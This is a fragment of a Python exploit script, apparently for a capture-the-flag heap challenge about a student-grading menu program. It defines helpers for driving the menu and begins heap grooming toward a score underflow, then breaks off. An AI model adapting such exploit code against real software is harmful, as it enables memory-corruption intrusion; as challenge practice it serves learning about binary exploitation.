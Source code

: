 ```python
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0x15D5)
        # cmd += "b *%d\n" % (base + 0x154D)
        cmd += "set $a=%d\n" % (base + 0x5080)  # arrPtr
        debug(cmd)


def menu(choice):
    sla("choice>> ", str(choice))


def add_student(Qnum=1):
    menu(1)
    sla("enter the number of questions: ", str(Qnum))


def give_score():
    menu(2)


def write_review(index, size, ctx):  # size [1, 0x3ff]
    menu(3)
    sla("which one? > ", str(index))
    if(size > 0):
        sla("please input the size of comment: ", str(size))
    sa("enter your comment:", ctx)


def call_parent(index):
    menu(4)
    sla("which student id to choose?", str(index))


def change_id(id):
    menu(6)
    sla("input your id: ", str(id))


def change_role(role):
    menu(5)
    sla("role: <0.teacher/1.student>: ", str(role))


def pray():
    menu(3)


def set_mode(ctx, score=0):
    menu(4)
    if score > 0:
        sla("enter your pray score: 0 to 100", str(score))
    else:
        sa("enter your mode!", ctx)


# Step-1: new students, stu0 pray set, give score, stu0 score underflow
sla('role: <0.teacher/1.student>: ', str(0))

add_student()  # 0
write_review(0, 0x380, "stu000000000")  # stu0.review chk size=0x391
add_student()  # 1
write_review(1, 0xa0, "stu11111111")
```